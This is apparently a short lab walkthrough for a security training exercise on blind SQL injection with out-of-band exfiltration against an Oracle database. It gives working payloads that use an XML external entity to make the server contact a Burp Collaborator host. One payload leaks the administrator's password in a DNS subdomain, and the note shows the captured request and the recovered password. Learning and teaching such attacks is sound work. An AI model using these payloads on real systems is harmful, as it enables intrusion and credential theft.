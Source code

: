 Lab: Blind SQL injection with out-of-band data exfiltration

My burp collaborator subdomain: `lyn9rdpqvjp92kzn7ixitap9e0kq8f.burpcollaborator.net`

Gameplan:
* Perform a dns lookup against my subdomain to confirm that app is vulnerable
* Find out how to exfiltrate data through DNS

### Find out database server used

Oracle:

`' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://lyn9rdpqvjp92kzn7ixitap9e0kq8f.burpcollaborator.net"> %remote;]>'),'/l') FROM dual)--`

Result: Success, DNS lookup was performed against my subdomain


### We know that this site uses Oracle db... find out how to exfil data

Payload with exfil:

`' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.lyn9rdpqvjp92kzn7ixitap9e0kq8f.burpcollaborator.net"> %remote;]>'),'/l') FROM dual)--`

^^^ Above will inject query info into the url as such: `<password>.lyn9rdpqvjp92kzn7ixitap9e0kq8f.burpcollaborator.net`


Executed the above payload, this is the request sent to collaborator:

`
GET / HTTP/1.0
Host: uvzfsibrjxnjzk1irswl.lyn9rdpqvjp92kzn7ixitap9e0kq8f.burpcollaborator.net
Content-Type: text/plain; charset=utf-8
`

So the password for the administrator user is: `uvzfsibrjxnjzk1irswl`